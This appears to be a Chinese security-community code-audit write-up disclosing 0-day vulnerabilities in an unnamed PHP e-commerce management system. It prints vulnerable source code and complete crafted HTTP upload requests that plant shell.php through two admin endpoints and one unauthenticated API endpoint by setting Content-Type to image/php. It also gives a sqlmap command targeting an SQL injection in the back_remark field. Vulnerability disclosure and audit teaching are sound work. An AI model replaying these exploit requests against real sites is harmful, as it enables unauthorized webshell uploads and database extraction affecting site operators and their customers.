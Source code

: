 

# PHP 代码审计 - 某电商管理系统 0Day 分析 - 先知社区

PHP 代码审计 - 某电商管理系统 0Day 分析

- - -

最新源码下载，最近一次更新在 22 天前

[![](assets/1709530737-9b3bdee704b1fa39b678eb4a633472e7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301140751-09001834-d792-1.png)

## 代码审计

### 后台文件上传 Getshell(web 和小程序)

[![](assets/1709530737-386fc25bacafe1a494ad0e585b152073.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301142431-5d8a71ea-d794-1.png)

尝试上传点随便上传点东西看看上传接口在哪里，虽然报错了但至少知道了源码的位置

进行代码分析在/app/webapp/modules/system/actions/uploadImgAction.class.php 中结合请求包我们尝试进行 debug

[![](assets/1709530737-b9a0b2f77e243350871fb02999dc9417.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301141145-94cce874-d792-1.png)

在 debug 过程中发现一个 replace 语句其中将我们的$\_FILES\['imgFile'\]\['type'\]中的 image/换成了点，那么我们的 $\_FILES\['imgFile'\]\['type'\]为请求包中的 Content-Type: application/octet-stream部分

```bash
$type = str_replace('image/', '.', $_FILES['imgFile']['type']);
```

[![](assets/1709530737-ba52a216fedbcb02cdcbbf3cdb87d467.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301141247-b95c5f80-d792-1.png)

并且在替换后有一个拼接操作，进行源码分析

```bash
$imgURL=($_FILES['imgFile']['tmp_name']);
//进行替换操作
$type = str_replace('image/', '.', $_FILES['imgFile']['type']);
//将替换后的内容进行拼接，这里导致了我们后缀可控
$imgURL_name=time().mt_rand(1,1000).$type;
//移动操作
move_uploaded_file($imgURL,$uploadImg.$imgURL_name);
$image = $uploadImg . $imgURL_name;
echo json_encode(array("error"=>$error,"url"=>$image,'message'=>$msg));
```

如果我们将 Content-Type: application/octet-stream修改为Content-Type: image/php那么拼接时会变成.php的后缀。

[![](assets/1709530737-58049edeff8ebc43bb10f30658bd2026.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301141335-d6137b86-d792-1.png)

构造恶意请求包

```bash
POST /index.php?module=system&action=uploadImg HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------3521672959703348041050404464
Content-Length: 238
Origin: http://127.0.0.1:8080
Connection: close
Cookie: admin_mojavi=idaa1su8mvj9leoubg27osau0r
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

-----------------------------3521672959703348041050404464
Content-Disposition: form-data; name="imgFile"; filename="shell.php"
Content-Type: image/php

<?php phpinfo(); ?>
-----------------------------3521672959703348041050404464--
```

[![](assets/1709530737-39d4370406dc414f045f3b4b8e69f2b2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301141505-0b9c0048-d793-1.png)

访问

[![](assets/1709530737-24b8905aec2a886b80485e028877edfe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301141410-eadbf5e8-d792-1.png)

### 后台文件上传

通过审计我们发现触发文件上传的点是因为存在 str\_replace 函数那么利用审计工具查看是否还有其他地方存在该漏洞点

```bash
str_replace('image/', '.', $_FILES['file']['type']);
```

[![](assets/1709530737-e1ec5c8487bd9d143db8a55d3c90fcab.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301141545-237e402c-d793-1.png)

审计/webapp/modules/extension/actions/uploadImgAction.class.php

[![](assets/1709530737-0e811ee62af4d31b220fadf2b0853f43.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240303141551-7c46ed92-d925-1.png)

构造请求包

```bash
POST /index.php?module=extension&action=uploadImg HTTP/1.1
Host: 127.0.0.1:8080
Accept: */*
Accept-Encoding: identity
Cache-Control: no-cache
Content-Type: multipart/form-data; boundary=--------------------------371918364269932091066326
Cookie: admin_mojavi=idaa1su8mvj9leoubg27osau0r; XDEBUG_SESSION=PHPSTORM
User-Agent: PostmanRuntime-ApipostRuntime/1.1.0
Content-Length: 230

----------------------------371918364269932091066326
Content-Disposition: form-data; name="file"; filename="PassWaf_3.php"
Content-Type: image/php

<?php @phpinfo(); ?>
----------------------------371918364269932091066326--
```

[![](assets/1709530737-31f3aa23eda150dcbe70af32cb312967.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301141819-7f657130-d793-1.png)

### 未授权文件上传

上述的文件上传只限于后台，如果没有登录无法利用因此尝试寻找是否存在其他上传点，利用审计工具查找关键字

[![](assets/1709530737-06291f502e623dd1740e2aee20c5973a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301141919-a37dacfe-d793-1.png)

审计/webapp/modules/api/actions/userAction.class.php

```bash
public function upload(){
        // 查询配置表信息
        $sql = "select * from lkt_config where id = '1'";
        $r = lkt_gets($sql);
        if ($r) {
            $uploadImg = $r[0]->uploadImg;
            // 图片上传位置
            if (empty($uploadImg)) {
                $uploadImg = "../images";
            }
        } else {
            $uploadImg = "../images";
        }

        $imgURL = ($_FILES['file']['tmp_name']);
        $type = str_replace('image/', '.', $_FILES['file']['type']);
        $imgURL_name = time() . mt_rand(1, 1000) . $type;
        move_uploaded_file($imgURL, $uploadImg . $imgURL_name);
        echo $imgURL_name;
    }
```

和刚刚看到的后台内容类似，也是替换后拼接可以控制后缀，尝试上传  
因为是基于 TP 的因此我们构造接口调用，直接上传报错

```bash
POST /index.php?module=api&action=user&m=upload HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------323553422223467167571808530788
Content-Length: 243
Origin: http://127.0.0.1:8080
Connection: close
Cookie: admin_mojavi=idaa1su8mvj9leoubg27osau0r; XDEBUG_SESSION=PHPSTORM
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1


-----------------------------323553422223467167571808530788
Content-Disposition: form-data; name="imgFile"; filename="shell.php"
Content-Type:image/php

<?php phpinfo(); ?>
-----------------------------323553422223467167571808530788--
```

[![](assets/1709530737-ee0054d594656d18c2b434cbfc0ed268.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301142054-dc17a2d6-d793-1.png)

修改 name 为 file 即可，并且为测试是未授权将 Cookie 删除，这里虽然只返回了文件名但根据代码的审计发现其路径依旧为/images

```bash
POST /index.php?module=api&action=user&m=upload HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------323553422223467167571808530788
Content-Length: 240
Origin: http://127.0.0.1:8080
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1


-----------------------------323553422223467167571808530788
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type:image/php

<?php phpinfo(); ?>
-----------------------------323553422223467167571808530788--
```

[![](assets/1709530737-98e3231451ae0ede6e96cd43f9a0ab89.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301142202-04afdac4-d794-1.png)

### 前台 SQL 注入

代码分析/webapp/modules/api/actions/orderAction.class.php，发现 back\_remark 字段没有添加过滤

[![](assets/1709530737-c1086e1d25eb23b02996d79f7270f6a2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240303141616-8b246254-d925-1.png)

sqlmap 语句

```bash
#module=api&action=order&m=ReturnData
python sqlmap.py -u "http://127.0.0.1:8080/index.php?module=api&action=order&m=ReturnData" -data "id=1&oid=1&otype=1&re_type=1&back_remark=1" -p back_remark -dbs -batch
```
